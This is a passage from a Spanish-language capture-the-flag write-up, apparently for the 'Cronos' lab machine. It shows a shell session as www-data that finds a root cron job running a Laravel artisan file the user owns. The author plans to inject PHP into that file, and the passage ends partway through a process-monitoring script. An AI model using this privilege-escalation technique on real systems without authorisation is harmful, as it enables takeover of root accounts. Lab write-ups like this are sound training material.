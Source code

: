 Como tal no podemos reutilizar al contraseña que encontramos en la base de datos

```bash
www-data@cronos:/home$ sudo -l
[sudo] password for www-data: 
Sorry, try again.
[sudo] password for www-data: 
sudo: 1 incorrect password attempt
www-data@cronos:/home$ ls
noulis
www-data@cronos:/home$ su noulis
Password: 
su: Authentication failure
www-data@cronos:/home$ 
```

Vemos que cada minuto **root** esta ejecutando con **php** lo que hay en esa ruta 

```bash
www-data@cronos:/opt$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
#
www-data@cronos:/opt$  
```

Y bueno somos propietarios de ese archivo

```bash
www-data@cronos:/var/www/admin$ ls -l /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
www-data@cronos:/var/www/admin$ 
```

Vamos a meter lo que queramos en **PHP** 

Podemos crearnos también un **Script** en **bash** para detectar las tareas que se estén ejecutando

```bash
www-data@cronos:/dev/shm$ chmod +x procmon.sh 
www-data@cronos:/dev/shm$ cat procmon.sh 
#!/bin/bash

function ctrl_c(){
	echo -e "\n\n[!]Saliendo....\n"
	tput cnorm; exit 1
}

# CTRL+C
trap ctrl_c INT

old_process="$(ps -eo command)"

tput civis
```